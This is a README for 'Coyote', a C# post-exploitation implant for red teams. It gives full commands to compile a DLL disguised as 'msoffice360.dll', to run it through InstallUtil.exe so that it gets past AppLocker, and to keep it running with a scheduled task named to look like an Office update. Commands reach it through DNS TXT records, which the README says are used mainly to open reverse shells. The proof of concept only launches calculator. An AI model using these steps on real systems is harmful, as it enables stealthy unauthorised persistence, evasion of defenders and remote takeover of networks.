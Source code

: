 # Coyote

Coyote is a standalone C# post-exploitation implant for maintaining access to compromised Windows infrastructure during red team engagements.

* Bypasses application whitelisting such as Microsoft AppLocker using InstallUtil.exe (see [MITRE ATT&CK ID: T1218.004](https://attack.mitre.org/techniques/T1218/004/))
* Retrieves commands from operator via recursive DNS tunnel (see [MITRE ATT&CK ID: T1071.004](https://attack.mitre.org/techniques/T1071/004/))
* Small footprint in memory and on the network

The basic premise is for the red team to leave this tiny DLL behind on a compromised Windows system and have it occasionally poll the DNS TXT record of a legitimate looking FQDN to check for instructions. When needed, the TXT record can contain a simple powershell one liner to spawn an interactive reverse shell out to a VPS, or the first stage of something more sophisticated, as per the operator's requirements. Coyote is not used for interactive control of the compromised system, rather to maintain access and spawn some other tool (a reverse shell, meterpreter etc) as required.

### Usage

First of all edit the coyote.cs source file and set the c2domain variable to the subdomain you will be using for your TXT record.

To compile it on your own Windows box: 

C:\Windows\Microsoft.NET\Framework\v4.0.30319\csc.exe /target:library /out:msoffice360.dll coyote.cs

This will create a small DLL file of approximately 5 KB called msoffice360.dll (use whatever filename you think will blend in on the target) which you will place on the target system.

To execute it once on the target workstation or server: 

C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U msoffice360.dll

For it to be useful, Coyote needs to get executed repeatedly at some interval such as every 24 hours or upon each reboot. There are many ways to achieve this. See [PayloadsAllTheThings - Windows Persistence](https://github.com/swisskyrepo/PayloadsAllTheThings/blob/master/Methodology%20and%20Resources/Windows%20-%20Persistence.md) for a long list of techniques and pick one.

One way that will serve as an example is to hide the DLL in a user's AppData folder and then simply create a new scheduled task:

schtasks /CREATE /SC DAILY /TN "Microsoft Office security updates task" /TR "C:\Windows\Microsoft.NET\Framework\v4.0.30319\InstallUtil.exe /logfile= /LogToConsole=false /U C:\Users\Olivia\AppData\Local\Microsoft\msoffice360.dll" /ST 08:00

This means that every day at 0800 the built-in InstallUtil.exe will import and run the DLL's uninstall function, which will then do a recursive DNS lookup to check if a command is currently encoded in the TXT record, and if so execute it. This can hopefully remain undetected by the blue team until needed and act as a backup to any other methods being used to maintain remote access to the network.

To leave a command to be executed (generally this will be used to spawn an interactive reverse shell), base64 encode the exact string that you would have typed into the command line and place it in a TXT record on the subdomain that you set when you compiled the implant. Next time the implant calls home it will be executed.

### Proof-of-concept

We base64 encode the string calc.exe to get Y2FsYy5leGU=

We create a TXT record on our DNS server as follows:

TXT	updates.tartaruslabs.com	Y2FsYy5leGU=

This record is saved and from our laptop we then confirm it is active:

user@laptop:~$ host -t txt updates.tartaruslabs.com
updates.tartaruslabs.com descriptive text "Y2FsYy5leGU="

In coyote.cs we set the value of c2domain to "updates.tartaruslabs.com" and then compile it.

We execute the implant and sure enough calculator opens. 

![Coyote screenshot](https://github.com/TartarusLabs/Coyote/blob/master/screenshot.jpg?raw=true)

